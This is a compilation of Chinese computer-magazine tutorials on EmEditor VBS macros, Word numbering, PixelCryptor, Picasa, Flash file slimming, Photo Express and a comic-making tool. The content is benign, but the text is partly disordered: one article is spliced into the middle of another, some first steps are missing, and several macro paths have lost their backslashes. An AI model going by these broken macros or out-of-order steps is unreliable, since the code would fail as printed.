大家也可以按照上述方法添加一个包含26个小写英文字母的自定义序列，这样无论是自动填充大写英文字母还是自动填充小写英文字母，都是比较方便的，感兴趣的朋友不妨一试。

# 巧用EmEditor宏，操作更轻松

◆文/闫华礼

## 一、利用EmEditor宏快速输入个人信息

无论是我们撰写求职简历、毕业论文，或者是给杂志投稿时，总要不可避免地输入一些个人信息，如果每一次都要手动输入，真是太麻烦了，其实我们可以为此编写一个宏，这样当需要输入个人信息时，只需轻点鼠标，就完成了个人信息的输入。

```
document.selection.Text="地址:山东省XX市XX县XX小区XX单元XX室" '输入你的地址
document.selection.NewLine 1 '回车,下同
document.selection.Text="姓名:XXX" '输入你的姓名
document.selection.NewLine 1
document.selection.Text="邮编:XXXXX" '输入你的邮编
document.selection.NewLine 1
document.selection.Text="身份证号:XXXXXXXXXXXXXXXX" '输入你的身份证号
document.selection.NewLine 1
document.selection.Text="QQ号:123456789" '输入你的QQ号
document.selection.NewLine 1
```

输入完成后，单击菜单栏中的“文件→保存”命令，打开“另存为”窗口，选择好合适的位置（如，E:我的EmEditor宏），然后在文件名后边的文本框内输入“个人信息.vbs”（如图1，不包括引号），最后点击“保存”按钮。



第二步：单击菜单栏中的“宏→自定义”命令，打开“自定义宏”窗口（如图2），然后点击“新建”按钮，浏览找到刚才保存的“个人信息.vbs”文件，最后单击“确定”按钮，完成宏代码的添加。

如果你以后需要添加个人信息时，只需要单击菜单栏中的“宏→个人信息”（如图3）命令，就可以完成个人信息的添加了。

> 小提示
在第一步“个人信息.vbs”文件中，每一句宏代码单引号及其后边的内容是注释，可不输入。





## 二、利用EmEditor宏快速新建文本文件

我们使用EmEditor的过程中，每当新建一个文本文件，总是要先选择文件的保存位置及文件名对该文件进行保存，这真是一个繁琐的过程，利用EmEditor宏我们可以很轻松地完成在指定位置建立指定文件名的文本文件。下面以在“E:论文”文件夹下新建一个“我的论文”的文本文件为例具体说一下。

```
Option Explicit '强制变量声明
dim WshShell,fso,f
Set WshShell=CreateObject("WScript.Shell")
set fso=createobject("scripting.filesystemobject")
if fso.fileexists("E:论文我的论文.txt") then '判断要新建的文本文件是否存在
WshShell.Run """E:论文我的论文.txt""" '存在就直接打开
else
set f=fso.createtextfile("E:论文我的论文.txt") '不存在时,就新建一个
WshShell.Run """E:论文我的论文.txt""" '打开该文件
end if
```

最后保存。

第二步：单击菜单栏中的“宏→自定义”命令，打开“自定义宏”窗口，然后点击“新建”按钮，浏览找到刚才保存的“我的论文.vbs”文件，最后单击“确定”按钮，完成宏代码的添加。

这样你新建文本文件就方便多了，只需启动EmEditor，然后单击菜单栏中的“宏→我的论文”命令，就可以在刚才指定的位置新建一个“我的论文”的文本文件，并自动打开。

## 三、利用EmEditor宏快速打开文本文件

有时候，我们编辑文本文件，一次不可能完成所有的工作，下次还要打开同一个文件，需要不停地转换文件夹，直到找到相关的文件为止，这样麻烦不说，而且有时候我们忘记该文件的存放位置会耽误更多的时间，其实，我们可以编写一个VBS宏，让EmEditor轻松打开某个特定的文本文件。

```
Dim WshShell
Set WshShell=CreateObject("WScript.Shell")
WshShell.run """E:\备课\工作计划.txt"""
```

第二步：将这个文件保存到“E:\我的EmEditor宏”文件夹下，然后单击菜单栏中的“宏→自定义”命令，打开“自定义宏”窗口，然后点击“新建”按钮，浏览找到刚才保存的“打开指定文本.vbs”文件，最后单击“确定”按钮，完成宏代码的添加。

这样当我们启动EmEditor后，单击菜单栏中的“宏→打开指定文本”命令，就可以打开“E:\备课\”文件夹下的文本文件“工作计划”。

## 四、利用EmEditor宏快速压缩文件

我们写完毕业论文或者是稿子后，常常通过QQ传给指导教师或者是编辑，这就需要对相关文件进行压缩以方便传送，为了操作简单快捷，我们可以在EmEditor界面中调用WinRAR对相关文件夹进行压缩，还是以压缩“E:\论文”文件夹为例。

> 小提示
1.  上面代码中“WshShell.Run”语句中的路径及文件名要用三个引号引起来，这是因为如果你要执行的可执行文件存放的地方不是程序安装的常用路径，一般情况下，需要提供合法的路径名，但是run在运行解析时，遇到空格会停止，解决的方法是使用三个引号引起来。
2.  如果你要在其它的位置建立一个不同名称的文本文件，只需将上面代码中的“E:\论文\我的论文.txt”替换为“你的路径\你的文件名”即可。
3.  使用该宏时，一定要先建好相关路径，如上文中的“E:\论文”。

由于WinRAR支持DOS命令，因此我们可以通过运行批处理文件，来调用WinRAR完成对文件夹的压缩。

```
Dim WshShell
Set WshShell=CreateObject("WScript.Shell")
WshShell.run """E:\我的EmEditor宏\压缩.bat"""
```

第二步：在与第一步相同的位置新建一个批处理文件“压缩”，具体内容如下：

```
cd..
cd..
d:
cd D:\Program Files\WinRAR\
WinRAR a -r H:\论文 E:\论文\*.*
```

命令说明：1.前三句命令的含义是进入D盘根目录下。2.第四句是进入WinRAR的安装目录。3.最后一句的含义是将“E:\论文”文件夹下的所有内容压缩成“论文.RAR”文件，并保存到H盘根目录下。

这样，当我们的论文写完后，在EmEditor单击菜单栏中的“文件→保存”命令，然后再单击菜单栏中的“宏→压缩”命令，稍等片刻，就会在H盘根目录下发现压缩好的“论文.RAR”文件了。

# 将Word文档中的手工编号替换为自动编号

◆文/王志军

这里以Word 2007为例进行讲解，具体步骤如下：

## 第1步：删除手工编号

这里可以采取替换的方法将文档中的手工编号删除，按下“Ctrl+H”组合键，打开“查找和替换→替换”对话框，单击“更多”按钮切换至高级替换模式，勾选“使用通配符”复选框，将查找内容设置为“[0-9]{1,2}.”，这里的“[0-9]”表示所有数字，“{1,2}”是指前面的数字出现的次数为1次到2次，“替换为”则设置为，最后单击“全部替换”按钮。

或者，也可一次为所有段落添加自动编号，首先选中除标题之外的所有内容，方法是将光标定位在要添加自动编号的第一段的最前面，然后用鼠标滚轮滚动页面，直至最后一段的内容显示出来，按下Shift键，鼠标单击结尾处，此时Word将选中光标所在位置至鼠标单击位置的所有文本，单击“编号”按钮，Word将给所有选定的段落添加默认的编号形式“1.,2.,3.……”。

## 第2步：添加首个自动编号

删除手工编号之后，我们可以为文档添加自动编号。首先将光标定位至第一段的最前面，单击“段落”功能组中的“编号”按钮，可以为当前段落添加默认编号。接下来，请将光标定位在已设置自动编号的第一段中，单击“剪贴板”功能组中的“格式刷”按钮，将编号作用于其他段落即可。

打开“定义新编号格式”对话框，在“编号样式”下拉列表框中自行选择所需要的编号格式，或者也可以在“编号格式”文本框中自行定义新的编号，具体操作这里就不多说了。

# 图片也能做密码 ——PixelCryptor 1.1

随着“艳照门”事件闹得沸沸扬扬，网民们对私人电脑文件加密的意识逐渐提高了。现在市场上文件加密软件多如牛毛，那么到底要怎么样的软件才简便实用，适合大多数人呢？今天我们向大家推荐的这款免费的PixelCryptor 1.1软件，它占用磁盘空间小，加密方法独特牢靠，方便易学，操作简单，很适合大众使用。下载链接：http://www.newhua.com/soft/57886.htm。

◆文/TMG wangw

我们可以看到，该软件主界面简单明了，只有四个按钮。现在我们来对这几个按钮进行简单的介绍：单击该主界面左数第一个大图标About PixelCryptor可获得关于该软件的相关信息；单击左数第二个大图标Encode Files可进行文件的加密操作；单击左数第三个大图标Decode Files可对加密文件进行解密；单击最后一个图标可退出该软件。

## 一、文件加密操作

- 1. Step1: 单击左数第二个大图标Encode Files进入文件加密界面。
- 2. Step2: 单击第一个Create Folder按钮可创建你想要加密的新文件夹；单击Add Folder按钮可对电脑内已有的本地文件夹进行加密；单击Add File按钮可对电脑内已有的本地文件进行加密；单击Remove按钮可移除已经选择好的文件或文件夹，以便对现有的操作步骤进行更改。
    注：界面上的复选框如果被选中的话，在文件加密完成后源文件将会被删除。
    单击Add Folder按钮，在弹出的对话框浏览本地磁盘，选中需要添加的本地文件夹。
- 3. Step3: 单击右下角的Next按钮，进入下一个界面。
- 4. Step4: 单击Click here to select an image按钮，浏览本地磁盘，为已选择好需要加密的文件/文件夹添加图片作为密码。
    如果你对只添加一张图片作为密码不太放心，你还可以在选择了一张图片后再次单击中间的按钮添加多张图片。
- 5. Step5: 选择好作为密码的图片后，我们就可以单击界面右下角的Next按钮进入下一个界面。
- 6. Step6: 单击文本框右边的文件夹按钮，为该加密文件选择保存位置并为其命名。完成上述步骤后单击右下角的Next按钮，该软件就会自动对你所选择的文件或文件夹进行加密保存。PixelCryptor 1.1软件在对该文件或文件夹加密完成后会进入如图所示的界面。
    界面中上面的白色方框里显示的数据是你所加密文件的文件名、文件或文件夹数目和所加密文件的大小；下面的白色方框中显示的数据是你所选择的作为密码图片的图片名称和图片大小。
- 7. Step7: 完成上面几个操作步骤后单击界面右下角的Finished按钮，这样整个文件加密操作过程就完成了。

学会了文件的加密后，下面我们来进入对文件的解密的学习。



## 二、文件解密操作

- 1. Step1: 进入PixelCryptor 1.1软件操作主界面，单击左数第三个大图标Decode Files，再单击Click here to select an image按钮，在弹出对话框中选择你要解密文件的密码图片。
- 2. Step2: 单击右下角的Next按钮，进行下一步文件解密的操作。
- 3. Step3: 单击文本框右边的文件夹按钮，浏览本地磁盘，选择你要解密的加密文件或文件夹。
- 4. Step4: 单击界面右边的文件夹，可在展开的文件夹中选择你要解密的文件，在选中文件后单击右下角的Next按钮，进行下一步操作。
- 5. Step5: 单击文本框旁的文件夹按钮，为你所解密的文件选择磁盘保存地址，在选择好保存地址后，单击右下角Next按钮后会出现一个界面，该界面白色方框中显示出你所解密文件或文件夹的信息。
- 6. Step6: 最后，单击右下角Finished按钮，这样该文件就解密成功了。

无论是节假日外出游玩，还是周末去郊游，每次回来时，相信我们的数码相机、手机里都会有不少新拍的照片，而为了图省事，人们往往将数码相机或手机拍摄的数码照片随意地拷贝到电脑中硬盘的某个目录下。时间一长，电脑中积攒的数码照片是越来越多，当我们需要查看某张照片时，却经常不知道这张照片保存到什么位置了。今天，笔者就给大家推荐一个强大的数码照片管理工具——Picasa 2.7（以下简称Picasa，下载地址：http://www.skycn.com/soft/18351.html），利用它，我们可以很轻松地管理电脑中的数码照片，接下来，笔者就将自己使用Picasa的一点经验来和大家共同分享。

# 照片管理，我用Picasa

◆文/啄木鸟

## 技巧一：照片的搜集及分类

### 1.搜索照片

先下载并安装Picasa，当我们第一次运行Picasa时，就会弹出一个“初始图片扫描”的对话框，如图1。在图1所示的对话框中，默认的选择是扫描硬盘中的所有图片，建议大家采用此默认设置，然后直接单击“继续”按钮，稍等片刻，就可以完成对硬盘中所有的图片的搜索工作了。



搜索完图片后，在Picasa中它们会按时间顺序进行排列并添加到图片集中，单击窗口左侧的图片文件夹，就可以在右边的列表框看到其中的图片缩略图了，如图2。此外，在图2所示的窗口中，单击A处所示的滑动条还可以调节右边列表框中缩略图的大小。



> > 由于我们拍摄的数码照片一般都是JPG格式的，为了避免Picasa搜索到硬盘中数码照片以外的其他多余图片，以方便我们将来查找数码照片，大家可在Picasa主窗口中依次单击菜单“工具→选项”命令，打开“选项”对话框并切换到“文件类型”选项卡，最后取消勾选所有的复选框即可，这样Picasa就会只显示搜索到的JPG格式的图片了。

### 2.照片的分类

由于硬盘中存在着大量的数码照片，因此，我们可以根据所拍摄的数码照片的内容不同，将数码照片分成若干类，这样我们以后查找数码照片就方便多了。给数码照片分类的具体做法是：

在Picasa主窗口中，单击“文件→新建相册”命令，这时就会弹出一个名为“相册属性”的对话框（如图3），在这个对话框中，先将“名称”后边文本框的内容修改为所要创建的相册的名称（如“旅行相册”），单击“确定”按钮之后，就可以创建一个名为“旅行相册”的相册了。当然，大家还可以根据自己硬盘中数码照片的内容，再继续创建其他的相册。



创建完相册之后，在图2所示的窗口中，右击右侧浏览窗口中的某张需要移动的数码照片，选择“添加到相册→旅行相册”，就可以将这张数码照片添加到“旅行相册”了。继续重复这个过程，我们就可以将硬盘中表现不同内容的数码照片添加到对应的相册中了。

> > 在Picasa中，我们新建了若干个相册，并将表现不同内容的数码照片添加到对应的相册当中，这并不会改变数码照片在硬盘中的位置。

### 技巧二 给照片添加星标

虽然在硬盘中我们保存了大量的数码照片，但其中我们比较喜欢的、经常查看的数码照片却并不是很多。在众多的数码照片中，怎样才能迅速地找到那些我们经常查看的数码照片呢？其实，Picasa早为我们考虑好了，利用Picasa所具有的添加星标功能，给自己喜欢的数码照片添加上星标，以后就可以迅速地找到它们了。

在图2所示的窗口中，选中右边列表框中的一幅或者几幅数码照片，然后单击B处所示的“添加/删除星标”按钮，就可以为自己喜欢的数码照片添加上星标了。这样当我们以后需要搜索某些已经添加星标的数码照片时，只需单击图2，C处的按钮，然后在出现的“搜索选项”中单击“已加星标”按钮，这时大家就会发现那些数量众多的、没有添加星标的数码照片已经被隐藏了——只显示添加星标的数码照片，从而方便了我们迅速地找到自己所需要的数码照片。

小提示：选中已经添加星标的数码照片，再次单击“添加/删除星标”按钮之后，就可以删除已添加星标的数码照片上边的星标标识。

## 技巧三 数码照片批量调整大小

数码相机拍摄的照片，无论是尺寸、还是体积，都是比较大的，浏览时十分不便，因此对拍摄的数码照片进行调节大小，这就显得很有必要了。调节数码照片的大小，如果使用Picasa来调节的话，实在是最方便不过了，更重要的是支持批量调节照片大小，其具体的操作步骤如下：

在图2所示的窗口中，选中右边列表框中需要调节大小的一幅或者几幅数码照片，然后单击菜单“文件→将图片导出到文件夹”命令，这时就会弹出一个名为“导出到文件夹”的对话框（如图4），接着单击该对话框中的“浏览”按钮，指定调整好大小的数码照片所保存的位置；再将单选框“调整大小为”下边文本框中的数字800修改为自己比较中意的数值（如“480”）；最后单击“确定”，稍等片刻，我们在刚才指定的目录下就会发现已经调整好大小的数码照片了。



小提示：
1. 在图4所示的对话框中，“调整大小为”单选框下边文本框中所输入的数值，表示数码照片调整完大小后的宽度，在数码照片调整大小的过程中，它会以原来的宽度和现在宽度的比值进行等比例缩小。
2. 使用Picasa调整数码照片的大小，无法改变原来数码相片高与宽的比例。

## 技巧四 精彩照片SHOW出来

我们拍摄的数码照片，如果仅仅供我们在闲暇之余浏览一番，那么未免有点大材小用了，我们还应该让它们SHOW出更多的精彩来才对。其实，仅仅利用Picasa，我们就可以让自己拍摄的数码照片SHOW出不一样的另类精彩来。下面，笔者就给大家介绍两个让数码照片SHOW出另类精彩来的新玩法。

### 1. 制作个性化屏保

用自己拍摄的数码照片制作个性化屏保应该是一个不错的主意，因为这可以让我们经常浏览到自己拍摄的精彩瞬间。利用Picasa制作个性化的屏保，还是比较简单的，具体的做法是：

先按照上边介绍的方法，新建一个名为“个性屏保”的相册，然后将自己拍摄的数码照片挑选出一些比较喜欢的添加到“个性屏保”的相册，接着单击打开这个相册并选中该相册中的所有照片（如图5，A处），再单击菜单“制作→添加到屏幕保护程序”命令，这时就会弹出操作系统的“显示属性”对话框并自动切换到“屏幕保护程序”选项卡（如图6），在这个选项卡，单击“预览”按钮，我们就可以预览到Picasa版屏幕保护程序的效果图了。





### 2. 制作个性化拼贴

除了将自己拍摄的数码照片制作成个性化屏保之外，我们还可以将数码照片制作成个性化的拼贴，而且方法和制作个性化屏保一样简单——

先建立一个名为“个性化拼贴”的相册，然后将自己比较满意的照片添加到这个相册中，接着同时选中该相册中的所有照片，并单击菜单“制作→图片拼贴”命令，打开图7所示的“制作拼贴”对话框再执行以下操作：先单击“制作拼贴”对话框中“类型”右边的下拉箭头，选择一种自己最喜欢的拼贴类型（如“图片堆叠”）；然后单击“选项”右边的下拉箭头，选择自己比较满意的背景（如...）## “三招两式”，Flash文档想瘦就瘦
◆文/抚远大将军

### 技巧1：图片的瘦身
在制作Flash动画的过程中，经常会导入大量的图片，即使是导入体积最小的JPG格式的图片，由于图片数量多，Flash文档的体积自然就很大了。为了让Flash文档的体积瘦下来，我们可以先根据某张图片在Flash舞台中使用时尺寸的大小，在导入图片前就使用SnagIt之类的图片编辑工具对图片进行调整尺寸大小的操作。这样一来，不但导入的图片体积小了许多，而且导入的图片在添加到Flash的舞台中时，可以直接使用，无须在Flash舞台中用“任意变形工具”再调整图片的大小了。想想看，这真是一举两得呀。

先根据需要调整好图片尺寸的大小，再导入到Flash的库中，这虽然可以让Flash文档变得比较“苗条”，但是图片数量多了，其体积仍然难有特别明显的下降，我们可以在Flash中通过压缩图片来减小图片的体积，其具体的操作步骤是：



在Flash的主界面中，单击菜单“窗口→库”命令，调出“库”面板，然后选中“库”面板中需要进行压缩的图片文件并右击之，选择“属性”，打开“位图属性”对话框，先取消勾选“使用导入的JPEG数据”复选框（如图1），接着将“品质”右边文本框内的100修改为一个比较小的数据（一般选50就可以了），最后单击“确定”即可。

经过这两步的操作，相信Flash文档中的图片体积就会降下来了，Flash文档的体积自然也会小了不少。

### 技巧2：MP3文件的瘦身
在Flash文档中，除了图片之外，导入的MP3文件其体积也会比较大，对于导入的MP3文件，在导入之前可先在GoldWave中将其打开，然后单击菜单“文件→另存为”命令，在弹出的“另存为”对话框选择较低的字节数，例如，本来的MP3是128kbps，那么在这里选32kbps，再执行保存操作。这样经过调整的MP3文件，其体积就会小了很多，导入到Flash中之后，Flash文档的体积也会小很多。

### 技巧3：删除无用的元件
一个好的Flash作品，在制作的过程中往往要经过N次修改才能完成，在修改的过程中，Flash的“库”面板中往往会产生大量无用的元件，这也是Flash文档体积变大的主要原因。我们可以删除Flash文档中这些无用的元件，具体方法是：

先调出“库”面板，然后单击该面板右上角的“小三角形”（如图2，A处），接着在弹出的右键菜单中选择“选择未用项目”，这时“库”面板中未用的项目会呈现被选中的蓝色条，右击这些被选中的元件并选择“删除”，最后保存对这个Flash文档所做的修改即可。



> **小提示**
> 删除“库”面板中的图片元件时，一定要慎重，因为有些图片表面上看起来没有用，但实际已经添加到影片剪辑当中，而这个影片剪辑却是有用的，如果删除了该图片元件，最终生成的SWF动画中所包含的图片就有可能无法全部正常显示。

笔者在实际操作中发现，一个3MB左右的Flash文档，采用以上所介绍的方法进行综合瘦身之后，其体积更是减少了将近1.5MB，而最终生成的Flash动画，才只有300多KB，也比原来苗条了差不多一半，瘦身效果是不是很明显呢？有此需求的朋友不妨一试。



“白色背景”）；再单击“选择”按钮，浏览确定保存个性拼贴的具体目录（如F盘根目录下）；最后单击“创建”按钮，很快我们就可以在F盘根目录下看到一幅名为“collage”的JPG格式图片，这就是我们创建的个性化拼贴，如图8所示。



好了，看到上边所做的介绍，大家是不是觉得Picasa的功能很多很强大呢？那么就赶快行动起来，下载Picasa来处理和美化自己的数码照片吧，相信在这个过程中，大家会发现Picasa还有更多更新鲜的功能。

## 好相片，我形我速SHOW出来
随着生活水平的不断提高，很多朋友都有了数码相机，利用数码相机拍下生活中的点点滴滴，并通过各种途径和亲人、朋友分享，这的确是一件很惬意的事。但拍摄的数码照片总是或多或少存在一些问题，因此对拍摄好的数码照片进行后期的编辑处理就是不可或缺的一个环节了。但是，一款适合大多数人、比较容易上手的数码相片软件却并不好找。今天，笔者就给大家推荐一款这样的工具——“我形我速”。利用“我形我速”制作出的图片效果不但可以和Photoshop相媲美，而且操作比较简单，非常适合初学者。
◆文/孙学荣

### 一、初识“我形我速”
Ulead公司的Photo Express在国内被称为“我形我速”，它是一个图片编辑软件，提供了非常周到的图片编辑和共享功能，你可以从多种外部设备输入图片到“我形我速”中加以管理和编辑。“我形我速”提供了全面的图片编辑工具，从改变画面的明暗度，到添加各种特效，这些工具只需鼠标的点击就可调用。而“我形我速”所提供的对象设计向导和现成的模版使图片编辑变得相当简单，即使对初学者也是如此。以下我们通过几个实例来边做边学“我形我速 5.0”（以下简称“我形我速”）。

让我们先来熟悉一下“我形我速”吧，“我形我速”有“浏览”、“相片”、“项目”三种工作模式，启动后系统默认的是“浏览”工作模式，在“浏览”工作模式下，我们可以看到“我形我速”的窗口主要由菜单栏、模式菜单、菜单命令栏、快捷工具栏、树状文件夹、浏览窗口和缩略图卷轴七部分组成（如图1），需要注意的是，“我形我速”在三种模式下菜单命令栏和快捷工具栏会有所不同。

在下边的实例介绍中，我们一般将左侧的树状文件夹称为Option面板，因为在这个面板中，系统提供了所有可帮助你进行工作的设置工具；而把浏览窗口称为工作区，因为所有编辑工作都是在这儿完成的。此外，下边的实例中所提到的鼠标动作，“单击”、“点击”或“左击”表示单击鼠标左键，“右击”则表示单击鼠标右键，而“双击”则表示在短时间内连续两次单击鼠标左键。



### 二、相片的基本操作
准备工作：我们安装完“我形我速”后，其图片库中有数量众多、种类齐全的图片，在默认状态下，每当我们启动“我形我速”后，在“我形我速”的工作区就会显示图片库中“Animal”（动物）文件夹下的内容。为了方便我们管理和查找图片，我们可以将自己的数码相片单独放在一个文件夹内。方法是：在图1所示的窗口单击“创建新的相册或文件夹”按钮，建立一个文件夹并重命名为“我的相册”。

**实例1：相片的裁剪**
有时我们拍摄的数码相片，背景所占的范围太大，与背景相比较，相片的主体就显得不突出了；而有时人们拍摄的数码相片虽然总体效果无可挑剔，但如果直接冲印出来给朋友或者亲人分享，总显得缺少新意。因此，对拍摄的数码相片进行一下基本的裁剪与修饰，再和朋友、亲人分享，一定会让我们的相片SHOW出别样的精彩！

第1步：复制自己保存在电脑上需要进行编辑的数码相片，然后在“我形我速”的主界面中，先将鼠标定位到“树状文件夹”中的“我的相册”分支下，接着在右边工作区的任意位置右击，选择“粘贴”，就将需要编辑的相片复制到“我的相册”文件夹中了，并且在“浏览窗口”以缩略图的方式显示，如图2。


第2步：在图2所示的界面中，右击需要编辑的数码相片，选择“编辑”，就可以进入到“相片”工作模式了。图2中的相片，背景太大，而人物在右边的角上，这样看起来很不协调，因此先将多余的背景去掉。

第3步：在“相片”工作模式下，单击菜单“编辑→调整→智能改善”命令，在出现的相片编辑选项中，单击“修剪”按钮（如图3，A处），就可以将相片多余的背景给去掉了（如图3），最后单击菜单“文件→保存”命令，将裁剪过的数码相片保存为“相片特效1.jpg”。



> 如果对自己拍摄的数码相片的整体效果不满意，可以单击图3，A处旁边的其它按钮来对数码相片进行一些简单的编辑；如果对自己的某一步操作不满意，可单击快捷工具栏的“撤消上一操作”按钮，取消上一步对数码相片所做的更改。

### 实例2：相片的添加背景和复制
可能有的朋友会说，裁剪过的相片，显得很小，这样如果直接冲洗或者与朋友分享，甚至效果还不如原来的。没有关系，我们可以给相片添加一个背景，并且通过复制裁剪的相片，使得相片内容显得更丰富，从而得到一种特殊的效果。

第1步：先打开我们裁剪过的相片，然后单击菜单“文件→新建→新建相片”命令，打开“新建相片”窗口，然后单击这个窗口中“自定义”右边的下拉箭头，选择“像素”，再设置好图像的大小（如图4），最后单击“确定”。



第2步：在“缩略图卷轴”中选中我们裁剪过的相片，然后将这幅图片拖到工作区，这时就将我们裁剪过的相片添加到背景上边了；接着右击裁剪过的相片，选择复制并粘贴一个副本，最后调整好这两者在背景相片中的位置，使之整齐美观，如图5。



相片副本就成为一个整体了，最后将编辑好的相片另存为“相片特效2.jpg”。

### 实例3：添加文字
我们到数码相片店去冲洗相片时，可以要求工作人员给加上一些比较个性化的文字，并做出一些时尚的特效，一般来说，数码相片店的工作人员是用Photoshop来完成文字添加及特效制作的。其实，利用“我形我速”，可以很轻松地添加一些文字并做出一些时尚的特效，文字的添加及特效的制作，具体步骤如下：

第1步：关闭并重新运行“我形我速”，然后再打开需要添加文字的数码相片——“相片特效2.jpg”，接着单击菜单“编辑→文字→添加/编辑”命令，打开“文字”面板。

第2步：在“文字”面板中“文字”下边的文本框内输入自己想要输入的文字内容，如“飞天仙子入梦来”，因为“相片特效2.jpg”的空白区域是有限的，因此要先在“文字”下边的文本框内输入第一个字“飞”（一次性全部输入，不能使文字竖着排列），接着设置好自己喜欢的字体和字体颜色等参数（如图6，A处），最后单击“应用”。


第3步：按照第2步的方法，再输入其它的六个字，字体及字体颜色设置好以后，最后根据相片空白区域的情况，调整好每个字之间的位置关系，使之整齐美观，如图6，B处所示。

第4步：双击文字“飞”使文字框处于编辑状态，接着单击菜单“编辑→文字→调整形状”命令，在窗口左边出现的多种文字形状中，选择一种自己比较满意的，最后单击“应用”。

重复这个过程，再调整好其它文字的形状，所有的文字样式设置完毕后，右击其中的任意一个文字，选择“全部合并”，最后将编辑好的相片另存为“相片特效3.jpg”。

### 实例4：添加相框
完成了相片的编辑、添加文字之后，我们还可以利用“我形我速”的“装饰”功能，给相片添加相框、边缘、道具等，下边就以给数码相片添加相框为例来给大家介绍一下如何给相片添加这些“挂件”，以完成相片最后的编辑美化工作。

重新运行“我形我速”并打开“相片特效3.jpg”，然后单击菜单“编辑→装饰→画框”命令，先在画框类型下边的列表框内选择自己喜欢的一种类型（如图7，A处），接着单击“应用”，如果对相框效果满意的话（如图7，B处），将相框和相片全部合并到一块儿后，最后另存为“相片特效4.jpg”就可以了。

> 当给相片添加完框之后，在原有相框的基础上还可以添加其它的相框，形成一种相框叠加的特殊效果，从而让自己的数码相片更出彩！


上边我们使用“我形我速”对一幅非常普通的数码相片，进行了裁剪、添加背景及复制、添加文字和相框等一些最基本的操作，就化腐朽为神奇了，使得相片的效果有了质的变化。大家在使用“我形我速”对相片进行编辑处理的时候，可以根据相片的实际情况，灵活地选择上边所介绍的美化相片方法的一种或者几种，相信一定会让你的数码相片SHOW出不一样的精彩！

### 三、综合应用
在上文，笔者给大家介绍了一些使用“我形我速”来对相片进行编辑处理的基本操作，其实，“我形我速”的功能并不仅限于此，利用软件中提供的大量的月历模板，我们可以制作出比较有个性的电子月历来。下边，笔者就给大家介绍一下如何利用“我形我速”提供的模板来制作一个电子月历。是不是心动了？那就往下看——

- 第1步：运行“我形我速”，在“浏览”工作模式“树状文件夹”列表框的“Photo”分支下，按照前边所讲的方法新建一个名为“电子月历”的文件夹，用鼠标选中该文件夹，最后复制自己准备好的六幅图片，并在工作区粘贴，这时所有的图片就都复制到“电子月历”的文件夹下了。
- 第2步：先全部选中工作区中的六幅图片，再单击菜单“分享→日历”命令，这时就会出现一个窗口（如图8），在这个窗口中，单击左上角“日历类型”旁边的下拉箭头，选择“两个月”；然后单击“方向”右边的“纵向”或“横向”按钮，选择自己喜欢的月历的方向——纵向或横向；最后在下面系统所提供的模板中选择自己喜欢的风格，大家可以单击不同的模板，以预览结合自己选定的图片的效果来确定最佳的模板。

> 在图8所示的窗口中，在左边选择一个自己喜欢的模板后，在右边的工作区就可以看到预览效果，在这个窗口中我们发现月历的页面是由背景、插图（就是刚才自己准备的相片）、月历和月份等元素组成的（如图9），大家可以单击各个元素来移动它们或改变尺寸，也可以用鼠标右击某个元素，在出现的右键菜单中选择相关选项对该元素进行编辑修改以使得月历更加个性化。


第3步：选择了自己喜欢的模板并修改完毕后，单击浏览窗口下边的“下一步”按钮，进入日期和年份设置面板（如图10），在这里你可以设置月历开始的年份和月份，以及显示月份所使用的语言——汉语或英语。你还可以调整自己所选定的6张相片的顺序，以便为每个月份配上自己理想中的相片。

第4步：月历的起始日期等参数设置完毕后，单击“下一步”按钮，在模板元素面板，单击“添加年份字符串”按钮，并再一次单击“下一步”按钮，进入输出目标面板，在这个窗口中先单击“将当前布局应用到所有其它页面”（如图11，A处）；保存时，大家可以选择打印、存盘、把月历直接设置为墙纸以及另存为新的模板（如图11，B处）；

建议大家选择存盘，将当前浏览窗口的月历保存后；再单击“转到下一页”按钮（如图11，C处），接着保存第二张月历，直到将所有的六张月历全部保存完毕。

怎么样，利用“我形我速”无论是编辑相片还是制作月历，是不是都比较简单？感兴趣的朋友不妨一试。

## 四格漫画轻松做
在报刊杂志以及网站上，我们都能看到四格漫画，四格漫画以其短小的篇幅、生动有趣的情节赢得了许多朋友的青睐。对于喜欢看四格漫画的朋友来说，有没有想到创作属于自己的四格漫画作品呢？今天，笔者就给大家介绍一个创作四格漫画的好工具——风漫，利用风漫，即使是没有任何绘画基础的朋友，也可以快速创作出属于自己的四格漫画作品。
◆文/独孤九剑

### 一、初识风漫
先从（http://www.onlinedown.net/soft/33440.htm）下载风漫，安装并运行，其界面如图1所示。在风漫里边，有一个素材库，素材库里边包含场景、动植物、人物等七个类别的素材，而且每个类别的素材还可以细分为若干个不同的子类别。我们创作四格漫画时主要是利用风漫提供的各种素材，经过组合并调整它们之间的大小及位置关系，这样就可以创作出生动有趣的四格漫画了。此外，我们在利用风漫创作四格漫画时，还可以导入自己喜欢的图片作为漫画的背景，从而使我们创作的漫画更有感染力。

现在，我们对利用风漫创作四格漫画有了大体的了解，下面笔者就给大家介绍一下如何利用风漫来创作属于自己的有趣的四格漫画。



### 二、四格漫画构思及漫画页面的创作
我们在创作四格漫画时，首先要确定一个主题，比如可以根据一个笑话来创作四格漫画，也可以将自己经历的点点滴滴令人感动的生活细节来创作四格漫画。确定了四格漫画的主题后，再将这个主题用四幅漫画表现出来。大家可能都听过《什么是懒惰》这个笑话，笑话的大意是：老师给学生布置了一篇名为《什么是懒惰》的作文，在批阅作文时，却发现有一位同学的作文没写，老师一直翻到作文本的最后一页，才发现一句话——“这就是懒惰”。今天，我们就以这个笑话来创作四格漫画。

### 三、其它漫画页面的创作
四格漫画中的漫画页面1做好之后，其它漫画页面就比较好了。我们可以将漫画页面1中的所有元素复制到其它三个漫画页面中，最后再修改这三个漫画页面中的人物对话即可，具体的操作步骤是：

第一步：我们运行风漫时软件默认会打开漫画页面1，在图1所示的窗口中，先单击左下角的“添加新页”按钮，插入三个漫画页面，然后切换到漫画页面1，最后单击菜单“书本→当前页插入底图”命令，浏览找到风漫程序安装目录“BKGROUND”子文件夹中的C.JPG，将其作为背景图片插入到漫画页面1。

第二步：单击图1窗口中的“素材库”按钮，打开“素材库”窗口，然后单击“素材库”窗口下面的下拉箭头，展开“场景→房屋.ku”分支，选中“room3”选项卡中的最后一个素材，将其拖入到漫画页面1中并调整好该素材在页面中的位置，如图2。

